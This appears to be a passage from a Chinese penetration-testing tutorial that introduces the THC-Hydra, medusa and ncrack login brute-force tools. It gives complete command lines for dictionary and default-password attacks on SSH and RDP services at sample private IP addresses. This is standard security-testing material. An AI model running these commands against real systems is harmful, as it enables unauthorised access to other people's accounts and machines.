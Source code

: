 ```shell
[+]  SNEFRU-256(HMAC)
[+]  SHA-256(md5($pass))
[+]  SHA-256(sha1($pass))

```



#### 远程破解工具——THC-Hydra

一个支持多种网络服务的非常快速的网络登陆破解工具。这个工具是一个验证性质的工具，它被设计的主要目的是为研究人员和安全从业者展示远程获取一个系统的认证权限是比较容易地。linux下有命令行版本和图形界面版本。

图形界面版本为hydra-gtk，傻瓜式操作，位于kali的password工具目录中

命令行用例：

1. 对192.168.1.221主机的ssh服务进行字典暴力破解攻击，-l指定爆破用户，-P指定字典文件，-t指定线程数，-e说明连续字段，后接ns表明测试空口令及追加工具自带字典

```shell
root@kali:~# hydra -l root -P /root/pass.txt -t 16 -e ns 192.168.1.221 ssh
```

2. 对192.168.1.188主机的rdp服务进行指定密码攻击，-p指定密码

``` shell
root@kali:~# hydra -l administrator -p admin -t 16 -e ns 192.168.1.188 rdp
```



#### 远程破解工具——medusa

通过并行登陆暴力破解的方式尝试获取远程验证服务访问权限的工具。

具体用例：

对192.168.1.221主机的ssh服务进行字典暴力破解攻击，爆破用户为root：

```shell
medusa -h 192.168.1.221 -u root -P /root/pass.txt -M ssh
```



#### 远程破解工具——ncrack

可针对某个具体端口进行字典破解。

默认用户名字典：/usr/share/ncrack/default.usr

默认密码字典：/usr/share/ncrack/default.pwd

具体用例：

对192.168.1.22:3389进行默认的用户名、密码字典爆破：

```shell
#ncrack -vv -U default.usr -P default.pwd 192.168.1.22:3389,CL=1 -f
```

ncrack具体功能很丰富，建议根据具体情况参照说明进行测试
